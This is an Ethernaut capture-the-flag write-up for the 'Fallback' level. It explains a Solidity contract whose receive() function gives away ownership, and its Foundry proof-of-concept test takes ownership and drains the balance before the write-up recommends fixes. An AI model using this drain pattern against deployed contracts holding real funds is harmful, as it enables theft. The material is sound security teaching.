 # Level 1 - Fallback

## Objectives

- claim ownership of the contract
- reduce its balance to 0

Things that might help

- How to send ether when interacting with an ABI
- How to send ether outside of the ABI
- Converting to and from wei/ether units (see help() command)
- Fallback methods

## Contract Overview

The fallback contract allows users to contribute ether to the contract. The contract is supposed to work as follows:

- `contribute()` function is restricted to payments smaller than `0.001 ether`

```solidity
    function contribute() public payable {
    require(msg.value < 0.001 ether); // <-- this line over here
    contributions[msg.sender] += msg.value;
    if(contributions[msg.sender] > contributions[owner]) {
      owner = msg.sender;
    }
  }
```

- if a user has contributed more than the owner, he then becomes the owner
  - claiming ownership this way would be very tedious because contributions of the initial owner are set to 1000 ether

```solidity
    function contribute() public payable {
    require(msg.value < 0.001 ether);
    contributions[msg.sender] += msg.value;
    if(contributions[msg.sender] > contributions[owner]) { // <-- this line over here
      owner = msg.sender; // <-- this line over here
    }
  }
```

- the owner can withdraw all of the funds

```solidity
  function withdraw() public onlyOwner {
    payable(owner).transfer(address(this).balance);
  }
```

## Static analysis (slither)

Here are the logs from the slither:

![alt text](https://github.com/matrix-0wl/ethernaut-solutions-foundry/blob/master/img/Fallback_slither.png)

## Finding the weak spots

The fallback contract contains a `receive()` function that at first glance contains flawed logic. That is why if we want to claim ownership of the contract we have to trigger `receive()` function. In order to do this we have to fullfill `require` condition.

```solidity
  receive() external payable {
    require(msg.value > 0 && contributions[msg.sender] > 0);
    owner = msg.sender;
  }
```

> The receive function is executed on a call to the contract with empty calldata. This is the function that is executed on plain Ether transfers (e.g. via .send() or .transfer()). If no such function exists, but a payable fallback function exists, the fallback function will be called on a plain Ether transfer. If neither a receive Ether nor a payable fallback function is present, the contract cannot receive Ether through regular transactions and throws an exception.
>
> _Reference: https://docs.soliditylang.org/en/v0.8.12/contracts.html#receive-ether-function_

We can send Ether to other contracts by:

- transfer
- send
- call

  | Function   | Amount of Gas Forwarded        | Exception Propagation              |
  | :--------- | :----------------------------- | :--------------------------------- |
  | `send`     | 2300 (not adjustable)          | `false` on failure (returns bool)  |
  | `transfer` | 2300 (not adjustable)          | `throws` on failure (throws error) |
  | `call`     | all remaining gas (adjustable) | `false` on failure (returns bool)  |

  _Reference: https://solidity-by-example.org/sending-ether/_

We will need to use the `call` method so that the contract has enough gas left to change the `owner` state after performing the transfer. Both `send` and `transfer` have a fixed gas stipend which would be insufficient for this purpose.

## Potential attack scenario (hypothesis)

If attacker sends ether directly to the contract via external call, he can become the owner of the contract without the need to contribute more than the owner.

## Plan of the attack

1. Contribute with a small amount of ether to be added to the `contributions` mapping.
2. Trigger the fallback function (`receive()`) to gain ownership of the contract.
3. Confirm the ownership of the contract has changed.
4. Withdraw all the funds.

## Proof of Concept

Here is a simplified version of the unit test exploiting the vulnerability ([complete version here](https://github.com/matrix-0wl/ethernaut-solutions-foundry/blob/master/test/01-Fallback.t.sol))

```solidity
        //Contribute with a small amount of ether to be added to the contributions mapping
        fallbackContract.contribute{value: 1}();
        emit log_named_uint(
            "Attackers's contribution: ",
            fallbackContract.getContribution()
        );

        // Trigger the fallback function (receive()) to gain ownership of the contract.
        (bool success, ) = address(fallbackContract).call{value: 1}("");
        require(success, "call failed");

        // Confirm the ownership of the contract has changed
        emit log_named_address(
            "New owner of the contract: ",
            fallbackContract.owner()
        );

        emit log_named_uint(
            "Balance of the contract before withdrawal: ",
            address(fallbackContract).balance
        );

        // Withdraw all the funds
        fallbackContract.withdraw();

        emit log_named_uint(
            "Balance of the contract after withdrawal: ",
            address(fallbackContract).balance
        );

        // Test assertion
        assertEq(fallbackContract.owner(), attacker);

        assertEq(address(fallbackContract).balance, 0);
```

Here are the logs from the exploit contract:

![alt text](https://github.com/matrix-0wl/ethernaut-solutions-foundry/blob/master/img/Fallback.png)

## Recommendations

1. The first way to mitigate the issue would be to move ownership transfer out of the receive function into separate `transferOwnership()` function which would perform all the necessary checks.
2. Second possible solution is to add additional logic to the receive function to check if the user has enough contributions to become the owner. It could be done like this:

```solidity
receive() external payable {
	require(msg.value > 0 && contributions[msg.sender] > 0);
	contributions[msg.sender] += msg.value;

	if (contributions[msg.sender] > contributions[owner]) {
		owner = msg.sender;
	}
}
```

## Additional information

You can also read my two other solutions (using console and Remix) on my blog: https://matrix-0wl.gitbook.io/ethernaut/1.-fallback-fallback-function

## References

- [Blog Aditya Dixit](https://blog.dixitaditya.com/series/ethernaut)
- [D-Squared YT - Ethernaut CTF Series](https://www.youtube.com/watch?v=_ylKN2R_o-Y&list=PLiAoBT74VLnmRIPZGg4F36fH3BjQ5fLnz)
- [Mastering Ethereum book](https://github.com/ethereumbook/ethereumbook)

## Acknowledgements

The structure of my reports is based on the insights provided by:

- [ChmielewskiKamil](https://github.com/ChmielewskiKamil/ethernaut-foundry)
- [Joran Honig Twitter thread](https://twitter.com/joranhonig/status/1539578735631949825?s=20&t=Kp6iDNXfRKQUBbsb_Yj5SQ)

The recommendations section is based on the insights provided by:

- [ChmielewskiKamil](https://github.com/ChmielewskiKamil/ethernaut-foundry)
